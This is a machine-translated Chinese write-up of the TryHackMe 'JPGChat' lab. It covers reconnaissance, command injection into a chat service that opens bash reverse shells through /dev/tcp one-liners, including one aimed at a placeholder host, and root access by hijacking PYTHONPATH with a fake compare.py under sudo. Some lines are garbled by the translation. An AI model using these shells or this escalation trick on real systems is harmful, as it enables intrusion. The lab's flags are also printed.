








# TryHackMe | JPGChat 报道

> 原文：<https://infosecwriteups.com/tryhackme-jpgchat-writeup-5a6ec94c2c8d?source=collection_archive---------1----------------------->

# 概观

嘿，大家好。我带着另一篇文章回来了，这一次尝试了[*jpg chat*](https://tryhackme.com/room/jpgchat)by*[*R4v3n*](https://tryhackme.com/p/R4v3n)*。*这是一个相当简单的盒子，有一个有趣的变化，你必须做一些 GitHub 搜索来找到聊天服务的源代码。从那里，你得到一个反向壳回来，并获得最初的立足点。之后，有一个 python 可执行文件，用户可以使用 root 权限运行，无需密码。为了利用它，您必须欺骗 PYTHONPATH 变量。所以，没别的说了，就从盒子开始吧。*

# *我们闯进去吧！*

*像往常一样，从 NMap 扫描开始。*

```
*sudo nmap -sS -sV -sC -oA nmap/chat *THM Box IP* -vv*
```

> *这里-sS: SYN Scan，-sC:用于“安全”脚本或默认脚本，-sV:用于版本枚举，-oA:所有格式的输出(Greppable、XML 和默认 NMap 输出)，-vv:用于详细。*

**

*NMap 完成扫描后，我们看到只有两个端口 22(ssh)和 3000(ppp)处于打开状态。在通过我们的浏览器访问端口 3000 上的服务时，我们看到我们有一些关于如何使用该服务的说明。但是，当通过网络浏览器访问时，该服务并没有完全发挥作用。*

**

*所以让我们使用 NetCat 来连接服务。*

```
*nc *THM Box IP* 3000* 
```

**

*通过 NetCat 连接后，我们看到消息传递和报告功能对我们都可用。该服务还告诉我们，源代码可以在 admins GitHub 上找到。为了找到管理员的名字，我们连接到服务的[报告]功能，服务泄漏了管理员的名字。现在，要找到源代码，只需在 GitHub 中稍微浏览一下，我们就能找到服务的源代码。*

**

*该服务利用 python 的操作系统模块，并使用 bash shell 运行命令。通过使用通用的 bash 反向 shell 一行程序，我们可以很容易地获得反向 shell。*

```
*bash -i >& /dev/tcp/*Your OpenVPN IP*/*port you’re listening on**
```

*这台机器确实接通了，但由于某种原因总是中断。因此，让我们使用另一个带有编码字符的 liner。*

```
*0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196*
```

> *想了解更多类似的精彩的一句话，请访问 swisskys 的 GitHub 知识库。*

**

*这次我们得到了没有任何问题的反向外壳。但是，这个 shell 不可用，因为命令输出在屏幕上不可见。但是，我们确实执行了命令。所以，我们可以再次让机器连接到我们，以获得反向外壳。*

```
*bash -c 'bash -i >& /dev/tcp/*Your OpenVPN IP*/*port you’re listening on*'*
```

**

*现在我们有了一个可用的外壳。让我们升级到一个完整的 TTY 外壳。*

```
*python3 -c ‘import pty; pty.spawn(“/bin/bash”)’*
```

*这会给你一个稍微好一点的外壳，但是没有那些神奇的特性。要获得功能完整的 TTY shell:*

```
*Press Ctrl-z to background the current shell, then on your terminal type:
stty raw -echo; fg <enter><enter>*
```

*然后在你的外壳上:*

```
*stty rows 36 cols 136
export TERM=xterm-256color*
```

***用户标志:** THM{w4it_h0w_c4n_th3s_b3}*

*现在，将我们的权限提升到 root。运行`sudo -l`我们得到一个提示，我们的用户可以以 root NOPASSWD 身份运行 test-module.py。我们不能修改脚本，但我们可以阅读它。*

*该脚本正在导入一个比较模块，这意味着我们可以欺骗 PYTHONPATH 变量，并创建我们自己的伪 compare.py 模块，并使用它来获取 root。*

```
*cd /tmpexport PYTHONPATH=$PWD
touch compare.py
chmod +x compare.py*
```

***等等**！，但是 PYTHONPATH 是什么，你怎么知道这个脚本在用它。别担心，因为我正要告诉你。*

*因此，PYTHONPATH 是一个环境变量，顾名思义，如果模块不在默认的全局目录中，python 脚本就在这个路径中查找被调用的模块**。因此，这意味着如果一个 python 脚本试图调用一个预定义的模块(例如 os)，欺骗 PYTHONPATH 对脚本没有影响，因为它不会访问 PATH 变量。***

**

*脚本是如何使用它的，首先当你`sudo -l`注意到右上角写着 env_keep+=PYTHONPATH，这意味着当调用任何东西作为 sudo 时，它将保持 PYTHONPATH 环境变量。其次，如果您阅读了该脚本，并且具有一点 python 编程知识，您会注意到正在导入的模块“compare”不是 python 编程语言的标准模块，这可能意味着用户可能没有将它安装在全局目录中，这又会导致相同的结论。*

*现在在 compare.py 中，进行一个系统调用，以 sudo 的身份调用 bash。*

```
*#!/usr/bin/env python3
import osos.system("/bin/bash")*
```

*这里刚刚发生了什么？*

*这个脚本非常简单，但不是所有人都能理解这里发生了什么。因此，我们导入了一个名为 os 的模块，它使我们能够从脚本中调用和执行系统命令，然后我们使用系统函数来调用 bash shell。如果您以普通用户的身份运行这个脚本，什么都不会改变。但是，如果您以 root 权限运行，您将拥有一个 root shell。*

**这很好，但是为什么导入一个模块会给我们一个根 shell 呢？**

*当你用 python 或者其他语言导入一个模块时，它可以导入这个模块中指定的函数或类，也可以导入整个包。在这个场景中，它正在导入整个包*(由通配符“*”指定)。然后，它调用比较模块中的一个函数，只要那一行被执行，我们的伪模块就开始做它的事情。它调用具有 root 权限的 bash shell，脚本停留在后台。当您退出根 shell，回到普通用户时，您可能已经注意到它给出了一个错误，没有找到指定的函数。这意味着，这段时间以来，脚本一直在调用函数，这给了我们的 shell 持久性。**

**这只是一个非常外行的解释而已，如果你想进入真正的技术细节，请阅读[](https://medium.com/python-features/what-happens-behind-the-scenes-when-we-import-a-module-in-python-2775da153790)*这篇非常透彻的文章。***

***现在，以 sudo 的身份运行 test-module.py。我们得到了根。***

******

*****Root-Flag:**THM { h4h4h 4 _ g0t _ y4 _ suck 3rs }***

***这就是那个盒子，希望你们喜欢。***

***祝你有美好的一天！***